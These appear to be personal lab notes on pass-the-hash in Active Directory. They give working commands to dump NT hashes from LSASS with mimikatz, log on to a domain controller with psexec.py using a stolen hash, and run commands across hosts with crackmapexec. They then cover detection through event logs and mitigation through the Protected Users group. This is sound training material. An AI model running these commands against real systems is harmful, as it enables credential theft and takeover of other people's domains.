 
To see : 
[[Kerberos]]
[[NTLM - New Technology Lan Manager]]

Sources : 
Microsoft course
https://en.hackndo.com/pass-the-hash/
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts

Tools: 
https://github.com/byt3bl33d3r/CrackMapExec

psexec.exe \\SRV01 cmd.exe -accepteula

mimikatz.exe
privilege::debug
sekurlsa::msv

python.exe psexec.py -hashes :e9cea451b61bd792681893d48f9683b9 CONTOSO/v.fergusson.adm@192.168.1.11 cmd.exe
This opens a command prompt on 192.168.1.11 (aka **DC01**) and we used to hash of Vickie during the logon process.

### Extract the hash from the LSASS memory 
	▪  This requires the seDebugPrivilege 
	▪ Requires that the targeted identity has cached its credentials 
### Inject the hash into your current session 
	▪ Either locally, or later on other systems 
	▪ The “new” hash is used to calculate NTLM responses 
### Does not trigger any failed authentication attempts

Attack’s pre-requisites - A victim is connected to the system, or a service is running under a user account - seDebugPrivilege, or LSASS memory dump

Protection - Healthy administration practices (do not connect to untrusted systems with privileged accounts, use RDP restricted mode) - Use the Protected Users group (for privileged accounts) - Block NTLM on systems where it is not used (very difficult in large environments)


# Steps of the pass-the-hash attack

### Extract credentials from SRV

Let's check if there is something yummy to steal (well, we know there is because we connected with Vickie's admin account to SRV01 at the beginning of this lab).

`psexec.exe \\SRV01 cmd.exe -accepteula`
  
`query user`

run `mimikatz.exe`.

**mimikatz #**  `privilege::debug` 

the following command to extract the NT hashes from the memory: 
`sekurlsa::msv`
Result : 
![[Pasted image 20231023210323.png]]
Hash is displayed in the **NTLM** proprety.



### Pass the hash of Vickie while connecting to a domain controller

This opens a command prompt on 192.168.1.11 (aka **DC01**) and we used to hash of Vickie during the logon process.
`python.exe psexec.py -hashes :e9cea451b61bd792681893d48f9683b9 CONTOSO/v.fergusson.adm@192.168.1.11 cmd.exe` 

Results: 
![[Pasted image 20231023210528.png]]

### Automate the PTH

https://github.com/byt3bl33d3r/CrackMapExec
 It takes as input a list of targets, credentials, with a clear password or NT hash, and it can execute commands on targets for which authentication has worked
```powershell
# Compte local d'administration
crackmapexec smb --local-auth -u Administrateur -H 20cc650a5ac276a1cfc22fbc23beada1 10.10.0.1 -x whoami

# Compte de domaine
crackmapexec smb -u jsnow -H 89db9cd74150fc8d8559c3c19768ca3f -d adsec.local  10.10.0.1 -x whoami
```

Here is an example where the `simba` user is administrator of all workstations.

![[Pasted image 20231023214430.png]]

https://github.com/Hackndo/lsassy
Having the list of connected users is good, but having their password or NT hash (which is the same) is better! For this, I developed [lsassy](https://github.com/hackndo/lsassy), a tool I talk about in the article [Extracting lsass secrets remotely](https://en.hackndo.com/remote-lsass-dump-passwords/#new-tools). It looks like this:
![[Pasted image 20231023214541.png]]



### Check the traces on the domain controller

Welcome back **Mister Blue**. It seems that **Miss Red** owns an admin account and is SYSTEM on your favorite domain controller. The one you swear to protect when you where hired… Let's see what we can see of that recent pass-the-hash.

 **Event Viewer (Local)** > **Windows Logs** > **Security**.

`<QueryList> <Query Id="0" Path="Security"> <Select Path="Security"> Event[ System[ (EventID=4624) or (EventID=4776) ] and EventData[ Data[@Name="TargetUserName"]="v.fergusson.adm" ] ] </Select> </Query> </QueryList>` 

Double click on the latest successful event **4776**. It should look like this: ![4776PY.png](https://labondemand.blob.core.windows.net/content/lab127288/4776PY.png)


## Reduce NT Hash exposure

### Leverage the Protected Users group

 `dsa.msc`
**Active Directory Users and Computers** console, right click on the domain **contoso.com** and click **Properties**. You should see that the current level is 2008 R2. Not great. Let's change that. Click **OK** to close the domain properties window.

Add user to the `Protected Users` group.
This will block the usage of NTLM on this account. That's okay because she is an admin. Blocking NTLM on a regular account is very tricky as you will need to understand all possible dependencies with the applications and systems used by a user. Let's also enable some logs for visibility.

See the failures and successes for the members of the **Protected Users** group on a separate event log.
**Event Viewer (Local)** > **Applications and Services Logs** > **Microsoft** > **Windows** > **Authentication**.
- **ProtectedUserFailures-DomainController** :  **Enable Log**. 
- **ProtectedUserSuccesses-DomainController**:  **Enable Log**. 

**Event Viewer (Local)** > **Applications and Services Logs** > **Microsoft** > **Windows** > **Authentication** > **ProtectedUserFailures-DomainController**. You should see the following event: 
![[Pasted image 20231023211225.png]]

You see the **Device Name** is **(NULL)**. It also means that if you check the event **4776** on the **Security** logs you would also see an empty **User Workstation** property. Let's check if we can identify the server against which the hash was tried.
  
**Event Viewer (Local)** > **Applications and Services Logs** > **Microsoft** > **Windows** > **NTLM** > **Operational**. You should see the following event **8004**:  
![[Pasted image 20231023211327.png]]

### Connect to a system when you are a Protected Users member

 `cd \Tools\mimikatz` 
 `mimikatz.exe`.
    
seDebugPrivilege to be able to read the memory: `privilege::debug`
command to extract the NT hashes from the memory: `sekurlsa::msv`.
There is no NTLM property available for Vickie's session.
![[Pasted image 20231023211527.png]]


